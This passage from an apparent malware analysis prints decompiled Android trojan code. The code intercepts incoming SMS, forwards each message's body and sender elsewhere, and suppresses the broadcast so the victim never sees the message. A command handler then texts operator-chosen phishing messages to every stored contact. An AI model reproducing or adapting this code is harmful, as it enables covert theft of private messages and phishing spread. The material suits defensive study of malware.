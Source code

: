 
```cs
 public void onReceive(Context context0, Intent intent0) {
        try {
            SmsMessage[] arr_smsMessage = Telephony.Sms.Intents.getMessagesFromIntent(intent0);
            Intrinsics.checkNotNullExpressionValue(arr_smsMessage, "smsMessages");
            int v = 0;
            while(true) {
                if(v >= arr_smsMessage.length) {
                    return;
                }

                SmsMessage smsMessage0 = arr_smsMessage[v];
                ++v;
                Intrinsics.checkNotNullExpressionValue(Uri.parse("content://sms"), "parse(\"content://sms\")");
                String s = smsMessage0.getMessageBody();
                Intrinsics.checkNotNullExpressionValue(s, "message.messageBody");
                String s1 = smsMessage0.getOriginatingAddress();
                Intrinsics.checkNotNull(s1);
                Intrinsics.checkNotNullExpressionValue(s1, "message.originatingAddress!!");
                new SendSms(s, s1).justExecute();
                StringBuilder stringBuilder0 = new StringBuilder().append("Sending SMS Message (");
                String s2 = smsMessage0.getOriginatingAddress();
                Intrinsics.checkNotNull(s2);
                AppKt.log$default(this, stringBuilder0.append(s2).append(", ").append(smsMessage0.getMessageBody()).append(')').toString(), null, null, 6, null);
                this.abortBroadcast();
            }
        }
        catch(Exception unused_ex) {
            return;
        }
    }
}

```
The malware will start collecting contacts to gain new victims by sending phishing SMS. 

```cs
if(Intrinsics.areEqual(s, "contactssender")) {
                        HashMap hashMap0 = Contacts.getContactList(context0);
                        for(Object object0: hashMap0.keySet()) {
                            String s1 = (String)object0;
                            try {
                                Object object1 = hashMap0.get(s1);
                                Intrinsics.checkNotNull(object1);
                                Intrinsics.checkNotNullExpressionValue(object1, "contacts[i]!!");
                                ContexStartExtensionsKt.sendSMS(((Context)workerService1), ((String)object1), command0.getText());
                            }
                            catch(Exception unused_ex) {
                                return;
                            }
                        }
                    }
if(Intrinsics.areEqual(s, "getcontacts")) {
                                ContextAccessesExtensionsKt.sendImAlive(context0, preferences0, workerService0.getLogger());
                                return;
```
